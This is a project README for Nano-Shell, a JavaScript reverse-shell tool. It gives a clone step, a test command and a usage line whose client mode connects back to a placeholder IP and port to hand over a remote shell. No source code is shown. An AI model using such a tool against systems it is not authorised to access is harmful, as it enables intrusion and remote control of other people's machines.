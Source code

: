 <h1 align="center">Welcome to Nano-Shell 👋</h1>
<p>
  <img alt="Version" src="https://img.shields.io/badge/version-1.2.2-blue.svg?cacheSeconds=2592000" />

  <a href="https://github.com/ghostfighter50/Nano-Shell/graphs/commit-activity" target="_blank">
    <img alt="Maintenance" src="https://img.shields.io/badge/Maintained%3F-yes-green.svg" />
  </a>
  <a href="https://github.com/ghostfighter50/Nano-Shell/blob/master/LICENSE" target="_blank">
    <img alt="License: ISC" src="https://img.shields.io/github/license/ghostfighter50/Nano-Shell" />
  </a>
</p>

> Simple JS reverse shell

### 🏠 [Homepage](https://github.com/ghostfighter50/Nano-Shell#readme)

## Install

```sh
git clone https://github.com/ghostfighter50/Nano-Shell
```

## Usage

```sh
nano-shell -u <ip> -p <port> (client) | nano-shell -h <port> (server)
```
## Screenshots 
![Linux](/screenshots/linux.png?raw=true "Unix systems")
![Windows](/screenshots/windows.png?raw=true "Windows system")


## Run tests

```sh
npm run test
```

## Author

👤 **Ghostfighter50**

* Github: [@ghostfighter50](https://github.com/ghostfighter50)

## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/ghostfighter50/Nano-Shell/issues). You can also take a look at the [contributing guide](https://github.com/ghostfighter50/Nano-Shell/blob/master/CONTRIBUTING.md).

## Show your support

Give a ⭐️ if this project helped you!

## 📝 License

Copyright © 2020 [Ghostfighter50](https://github.com/ghostfighter50).<br />
This project is [ISC](https://github.com/ghostfighter50/Nano-Shell/blob/master/LICENSE) licensed.

***
_This README was generated with ❤️ by [readme-md-generator](https://github.com/kefranabg/readme-md-generator)_

